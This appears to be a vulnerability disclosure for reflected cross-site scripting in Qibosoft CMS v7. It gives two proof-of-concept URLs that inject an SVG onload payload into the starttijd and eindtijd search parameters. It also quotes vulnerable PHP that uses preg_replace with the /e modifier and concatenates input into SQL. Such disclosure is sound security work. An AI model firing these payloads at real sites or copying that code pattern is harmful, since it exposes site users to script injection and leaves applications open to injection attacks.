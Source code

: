 
# Qibosoft v7 -  cross Site Scripting (Vulnerability Impact version<=7,Qibosoft CMS)




The vulnerability was discovered by test the program's locally and online deployment tests.      

the <B>eindtijd</B> and <B>starttijd</B> parameters on  <B>""/do/search.php""</B> is vulnerable by cross site scripting. 

using this vulnerability an attacker can use XSS to send a malicious script to an unsuspecting user. 




### Location: 

<html>
/do/search.php

</html>



### POC: 
```

domain/do/search.php?starttijd='"--><Svg OnLoad=confirm(0)> 

domain/do/search.php?eindtijd='"--><Svg OnLoad=confirm(0)>


```


### vulnerable code: 

```
if($starttijd&&$eindtijd){
		$starttijd=preg_replace("/([\d]+)-([\d]+)-([\d]+) ([\d]+):([\d]+):([\d]+)/eis","mk_time('\\4','\\5', '\\6', '\\2', '\\3', '\\1')",$starttijd);
		$eindtijd=preg_replace("/([\d]+)-([\d]+)-([\d]+) ([\d]+):([\d]+):([\d]+)/eis","mk_time('\\4','\\5', '\\6', '\\2', '\\3', '\\1')",$eindtijd);
		if($starttijd<$eindtijd){
			$SQL.=" AND A.posttime>'$starttijd' AND A.posttime<'$eindtijd'";
		}else{
			showerr("时间格式不对");
		}
	}
	if($starttijd){
		$starttijd=preg_replace("/([\d]+)-([\d]+)-([\d]+) ([\d]+):([\d]+):([\d]+)/eis","mk_time('\\4','\\5', '\\6', '\\2', '\\3', '\\1')",$starttijd);
		$SQL.=" AND A.posttime>'$starttijd'";
	}
	if($eindtijd){
		$eindtijd=preg_replace("/([\d]+)-([\d]+)-([\d]+) ([\d]+):([\d]+):([\d]+)/eis","mk_time('\\4','\\5', '\\6', '\\2', '\\3', '\\1')",$eindtijd);
		$SQL.=" AND A.posttime<'$eindtijd'";
	}

```



### Source Code:
http://down.qibosoft.com/down.php?v=v7
